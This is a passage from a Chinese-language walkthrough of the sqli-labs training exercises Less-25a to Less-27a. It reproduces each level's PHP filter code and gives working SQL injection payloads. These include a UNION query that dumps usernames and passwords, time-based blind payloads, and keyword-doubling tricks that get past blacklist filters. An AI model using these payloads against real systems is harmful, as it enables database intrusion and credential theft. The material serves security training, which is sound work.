+ 根据页面提示在链接添加一个属性和值：id=1。正常返回数据。
+ 判断该SQL语句的类型。
    + 使用在id值后面添加单引号，返回页面数据为空，可以推断出该SQL语句类型为数值。
+ 接下来我们直接获取所有的数据，这里和Less-25区别不大（查询该数据库中的所有表和所有列这里就不进行演示了）。

```sql
0 union select 1,(select group_concat(username) from users),(select group_concat(passwoorrd) from users) --
```


## Less-26 Trick with comments

+ 判断该数据SQL语句的类型经过尝试。发现该SQL语句类型为字符串类型。
+ 经过多次尝试以后发现该SQL语句有进行过滤处理，这时候我们就需要查看源代码。
+ 发现了过滤函数。

```php
function blacklist($id)
{
        $id= preg_replace('/or/i',"", $id);                     //strip out OR (non case sensitive)
        $id= preg_replace('/and/i',"", $id);            //Strip out AND (non case sensitive)
    	# 下面的代码都是在过滤空格
        $id= preg_replace('/[\/\*]/',"", $id);          //strip out /*
        $id= preg_replace('/[--]/',"", $id);            //Strip out --
        $id= preg_replace('/[#]/',"", $id);                     //Strip out #
        $id= preg_replace('/[\s]/',"", $id);            //Strip out spaces
        $id= preg_replace('/[\/\\\\]/',"", $id);                //Strip out slashes
        return $id;
}
```

+ 因为这里过滤空格和注释。我没有办法进行报错注入，这里只能用布尔和时间延迟方法进行注入。

    + 这里我使用时间延迟方法进行注入。

  ```sql
  # 为什么要用aandnd，因为preg_replace()函数不会进行多次过滤
  id=1'aandnd(if(substring(user(),1,1)=char(114),sleep(3),0))='
  ```

    + 剩下的步骤我这里就不进行详细说明。你可以去查看Less-10的步骤。

## Less-26a Trick with comments

+ 查看源代码后发现Less-26a和Less-26区别不大只是在SQL语句添加了`()`。

```sql
# 26
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 26a
SELECT * FROM users WHERE id=('$id') LIMIT 0,1;
```

+ 我们只需要修改一下Less-26的payload就可以了。

```sql
id=1')aandnd(if(substring(user(),1,1)=char(114),sleep(3),0))=('
```

## Less-27与SELECT&amp;UNION的绕过

+ 这题和Less-26区别不大只是在过滤函数添加了更多过滤规则。

```php
# Less-26
function blacklist($id)
{
        $id= preg_replace('/or/i',"", $id);                     //strip out OR (non case sensitive)
        $id= preg_replace('/and/i',"", $id);            //Strip out AND (non case sensitive)
        $id= preg_replace('/[\/\*]/',"", $id);          //strip out /*
        $id= preg_replace('/[--]/',"", $id);            //Strip out --
        $id= preg_replace('/[#]/',"", $id);                     //Strip out #
        $id= preg_replace('/[\s]/',"", $id);            //Strip out spaces
        $id= preg_replace('/[\/\\\\]/',"", $id);                //Strip out slashes
        return $id;
}
# Less-27
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);          //strip out /*
$id= preg_replace('/[--]/',"", $id);            //Strip out --.
$id= preg_replace('/[#]/',"", $id);                     //Strip out #.
$id= preg_replace('/[ +]/',"", $id);        //Strip out spaces.
$id= preg_replace('/select/m',"", $id);     //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);        //Strip out spaces.
$id= preg_replace('/union/s',"", $id);      //Strip out union
$id= preg_replace('/select/s',"", $id);     //Strip out select
$id= preg_replace('/UNION/s',"", $id);      //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);     //Strip out SELECT
$id= preg_replace('/Union/s',"", $id);      //Strip out Union
$id= preg_replace('/Select/s',"", $id);     //Strip out select
return $id;
}
```

+ 我们只需要把Less-26的payload修改即可。

```sql
1'and(if(substring(user(),1,1)=char(114),sleep(3),0))='
```

## Less-27a与SELECT&amp;UNION的绕过

+ Less-27a和Less-27两个题目的区别在于SQL语句不一样。

```php
# Less-27
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
# Less-27a
$id = '"' .$id. '"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

+ Less-27使用单引号，Less-27a使用双引号。
+ 这里我们只需要把Less-27的payload修改即可。

```sql
1"and(if(substring(user(),1,1)=char(114),sleep(3),0))="
```

